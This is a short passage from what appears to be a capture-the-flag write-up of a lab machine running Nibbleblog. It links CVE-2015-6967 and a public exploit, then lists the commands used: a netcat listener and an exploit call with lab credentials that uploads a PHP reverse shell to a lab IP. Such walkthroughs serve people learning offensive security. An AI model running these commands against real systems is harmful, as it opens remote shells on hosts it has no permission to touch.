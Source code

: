 I was finally able to find a exploit for the vulnerability and I immediately downloaded it in my system. I will be modifying it as per my own taste, but you can run it without putting any chances. Just make sure you put the arguments for the exploit correctly.

**Links:**
1. [CVE-2015-6967](https://nvd.nist.gov/vuln/detail/CVE-2015-6967)
2. [Exploit](https://github.com/dix0nym/CVE-2015-6967)

**Command I performed (for exploit):**
- `nc -lnvp 1234`
- `python3 exploit.py --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload php-reverse-shell.php`

![](images-nibbles/11.png)
